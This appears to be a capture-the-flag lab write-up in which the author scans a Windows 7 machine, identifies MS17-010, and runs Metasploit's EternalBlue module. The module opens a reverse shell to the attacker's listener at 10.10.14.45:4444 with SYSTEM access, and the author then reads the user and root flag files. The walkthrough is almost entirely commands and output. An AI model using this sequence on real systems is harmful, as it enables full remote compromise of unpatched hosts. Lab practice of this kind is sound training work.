

nmap -sC -sV 10.10.10.40
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-19 01:44 EST
Nmap scan report for 10.10.10.40
Host is up (1.3s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1m41s, deviation: 5s, median: 1m38s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-02-19T06:51:12+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-02-19T06:51:08
|_  start_date: 2020-02-19T06:37:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 326.53 seconds
```

searched for "netbios-ssn  Microsoft Windows netbios-ssn Windows 7 Professional 7601 Service Pack 1 exploit"  
found this exploit  
```
URL: https://www.exploit-db.com/exploits/42315
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) 
```

so I searched for "MS17_010" on metasploit and found it
```
msf5 > search ms17_010                                                                                   
                                                                                                         
Matching Modules                                                                                         
================                                                                                         
                                                                                                         
   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                                  
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection                                                                                                   
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption                                                               
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+                                                     
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution                                     
                                                                                                         
                                                                                                                                                                                                                   
msf5 > use 2                                                                                             
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options                   
                                                                                                         
Module options (exploit/windows/smb/ms17_010_eternalblue):                      
                                                                                                         
   Name           Current Setting  Required  Description                                           
   ----           ---------------  --------  -----------                                           
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'                                                                                    
   RPORT          445              yes       The target port (TCP)                                       
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication     
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.    
                                                    
                                                                                                         
Exploit target:                                                                                          
                                                                                                         
   Id  Name                                                                                              
   --  ----                                                                                              
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs                                              
                                                                                                         
                                                                                                                                                                                                                   
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40                                                                                                                                             
rhost => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options                                                                                                                                                      
                                                                                                                                                                                                                   
Module options (exploit/windows/smb/ms17_010_eternalblue):                                                                                                                                                         
                                                                                                                                                                                                                   
   Name           Current Setting  Required  Description                                                                                                                                                           
   ----           ---------------  --------  -----------                                                                                                                                                           
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'                                                                                    
   RPORT          445              yes       The target port (TCP)                                                                                                                                                 
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication                                                                                                               
   SMBPass                         no        (Optional) The password for the specified username                                                                                                                    
   SMBUser                         no        (Optional) The username to authenticate as                                                                                                                            
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.        
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.                  
                                                                                                         
                                                                                                         
Exploit target:                                                                                          
                                                                                                         
   Id  Name                                                                                              
   --  ----                                                                                              
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs                                      
                                                                                                                                                                                                                   
                                                                                                                                                                                                                   
msf5 exploit(windows/smb/ms17_010_eternalblue) > run                                                                                                                                                               
                                                                                                                                                                                                                   
[*] Started reverse TCP handler on 10.10.14.45:4444                                                                                                                                                                
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check                                  
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)                                                                                       
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)                                         
[*] 10.10.10.40:445 - Connecting to target for exploitation.                    
[+] 10.10.10.40:445 - Connection established for exploitation.                                           
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply    
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)                                                    
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1                                                                                                                      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply                     
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.                                          
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet                          
[*] 10.10.10.40:445 - Starting non-paged pool grooming                                 
[+] 10.10.10.40:445 - Sending SMBv2 buffers                                                              
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.  
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!                                           
[*] 10.10.10.40:445 - Receiving response from exploit packet                                             
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!                         
[*] 10.10.10.40:445 - Sending egg to corrupted connection.                                               
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.                                               
[*] Command shell session 1 opened (10.10.14.45:4444 -> 10.10.10.40:49160) at 2020-02-19 18:04:57 -0500  
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=                      
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=                                                                                                                                
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
                                                                                                                                                                                                                   
                                                                                                                                                                                                                   
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                                                                                                    
                                                                                                                                                                                                                   
C:\Windows\system32>whoami                                                                                                                                                                                         
whoami                                                                                                                                                                                                             
nt authority\system                                                                                                                                                                                                
                                                                                                                                                                                                                   
C:\Windows\system32>cd ..                                                                                                                                                                                          
cd ..                                                                                                                                                                                                              
                                                                                                                                                                                                                   
C:\Windows>cd ..                                                                                                                                                                                                   
cd ..                                                                                                    
                                                                                                         
C:\>dir                                                                                                  
dir                                                                                                      
 Volume in drive C has no label.                                                                         
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\                                                                                        
                                                                                                         
14/07/2009  03:20    <DIR>          PerfLogs                                                                                                                                                                       
24/12/2017  02:23    <DIR>          Program Files                                                                                                                                                                  
14/07/2017  16:58    <DIR>          Program Files (x86)                                                                                                                                                            
14/07/2017  13:48    <DIR>          Share                                                                                                                                                                          
21/07/2017  06:56    <DIR>          Users                                                                                                                                                                          
16/07/2017  20:21    <DIR>          Windows                                                              
               0 File(s)              0 bytes                                                                                                                                                                      
               6 Dir(s)  15,470,084,096 bytes free                                                       
                                                                                                         
C:\>cd Users                                                                                             
cd Users                                                                                                 
                                                                                                         
C:\Users>dir                                                                                             
dir                                                                                                      
 Volume in drive C has no label.                                                                                                                                                                                   
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\Users                                                                                   
                                                                                                         
21/07/2017  06:56    <DIR>          .                                                                    
21/07/2017  06:56    <DIR>          ..                                                                   
21/07/2017  06:56    <DIR>          Administrator   
14/07/2017  13:45    <DIR>          haris                                                                
12/04/2011  07:51    <DIR>          Public                                                               
               0 File(s)              0 bytes                                                            
               5 Dir(s)  15,470,084,096 bytes free                                                       
                                                                                                         
C:\Users>cd haris                                                                                        
cd haris                                                                                                 
                                                                                                                                                                                                                   
C:\Users\haris>dir
dir                                                                                                                                                                                                                
 Volume in drive C has no label.                                                                                                                                                                                   
 Volume Serial Number is A0EF-1911                                                                                                                                                                                 
                                                                                                                                                                                                                   
 Directory of C:\Users\haris                                                                                                                                                                                       
                                                                                                                                                                                                                   
14/07/2017  13:45    <DIR>          .                                                                                                                                                                              
14/07/2017  13:45    <DIR>          ..                                                                                                                                                                             
15/07/2017  07:58    <DIR>          Contacts                                                                                                                                                                       
24/12/2017  02:23    <DIR>          Desktop                                                                                                                                                                        
15/07/2017  07:58    <DIR>          Documents                                                                                                                                                                      
15/07/2017  07:58    <DIR>          Downloads                                                                                                                                                                      
15/07/2017  07:58    <DIR>          Favorites                                                            
15/07/2017  07:58    <DIR>          Links                                                                
15/07/2017  07:58    <DIR>          Music                                                                
15/07/2017  07:58    <DIR>          Pictures                                                             
15/07/2017  07:58    <DIR>          Saved Games                                                          
15/07/2017  07:58    <DIR>          Searches                                                             
15/07/2017  07:58    <DIR>          Videos                                                               
               0 File(s)              0 bytes                                                            
              13 Dir(s)  15,470,084,096 bytes free                                                       
                                                                                                                                                                                                                   
C:\Users\haris>cd Desktop                                                                                                                                                                                          
cd Desktop                                                                                                                                                                                                         
                                                                                                                                                                                                                   
C:\Users\haris\Desktop>dir                                                                                                                                                                                         
dir                                                                                                      
 Volume in drive C has no label.                                                                                                                                                                                   
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\Users\haris\Desktop                                                                     
                                                                                                         
24/12/2017  02:23    <DIR>          .                                                                    
24/12/2017  02:23    <DIR>          ..                                                                   
21/07/2017  06:54                32 user.txt                                                             
               1 File(s)             32 bytes                                                                                                                                                                      
               2 Dir(s)  15,470,084,096 bytes free                                                       
                                                                                                         
C:\Users\haris\Desktop>type user.txt                                                                     
type user.txt                                                                                            
4c546aea7dbee75cbd71de245c8deea9                                                                         
C:\Users\haris\Desktop>cd ../../                                                                         
cd ../../                                           
                                                                                                         
C:\Users>dir                                                                                             
dir                                                                                                      
 Volume in drive C has no label.                                                                         
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\Users                                                                                   
                                                                                                                                                                                                                   
21/07/2017  06:56    <DIR>          .                                                                                                                                                                              
21/07/2017  06:56    <DIR>          ..
21/07/2017  06:56    <DIR>          Administrator                                                                                                                                                                  
14/07/2017  13:45    <DIR>          haris                                                                                                                                                                          
12/04/2011  07:51    <DIR>          Public                                                                                                                                                                         
               0 File(s)              0 bytes                                                                                                                                                                      
               5 Dir(s)  15,470,084,096 bytes free                                                                                                                                                                 
                                                                                                                                                                                                                   
C:\Users>cd Administrator                                                                                                                                                                                          
cd Administrator                                                                                                                                                                                                   
                                                                                                                                                                                                                   
C:\Users\Administrator>dir                                                                                                                                                                                         
dir                                                                                                                                                                                                                
 Volume in drive C has no label.                                                                         
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\Users\Administrator                                                                     
                                                                                                         
21/07/2017  06:56    <DIR>          .                                                                    
21/07/2017  06:56    <DIR>          ..                                                                   
21/07/2017  06:56    <DIR>          Contacts                                                             
24/12/2017  02:22    <DIR>          Desktop                                                              
21/07/2017  06:56    <DIR>          Documents                                                                                                                                                                      
21/07/2017  06:56    <DIR>          Downloads                                                                                                                                                                      
21/07/2017  06:56    <DIR>          Favorites                                                                                                                                                                      
21/07/2017  06:56    <DIR>          Links                                                                                                                                                                          
21/07/2017  06:56    <DIR>          Music                                                                                                                                                                          
21/07/2017  06:56    <DIR>          Pictures                                                             
21/07/2017  06:56    <DIR>          Saved Games                                                                                                                                                                    
21/07/2017  06:56    <DIR>          Searches                                                             
21/07/2017  06:56    <DIR>          Videos                                                               
               0 File(s)              0 bytes                                                            
              13 Dir(s)  15,470,084,096 bytes free                                                       
                                                                                                         
C:\Users\Administrator>cd Desktop                                                                        
cd Desktop                                                                                               
                                                                                                                                                                                                                   
C:\Users\Administrator\Desktop>dir                                                                       
dir                                                                                                      
 Volume in drive C has no label.                                                                         
 Volume Serial Number is A0EF-1911                                                                       
                                                                                                         
 Directory of C:\Users\Administrator\Desktop                                                             
                                                    
24/12/2017  02:22    <DIR>          .                                                                    
24/12/2017  02:22    <DIR>          ..                                                                   
21/07/2017  06:57                32 root.txt                                                             
               1 File(s)             32 bytes                                                            
               2 Dir(s)  15,470,067,712 bytes free                                                       
                                                                                                         
C:\Users\Administrator\Desktop>type root.txt                                                             
type root.txt                                                                                                                                                                                                      
ff548eb71e920ff6c08843ce9df4e717
```

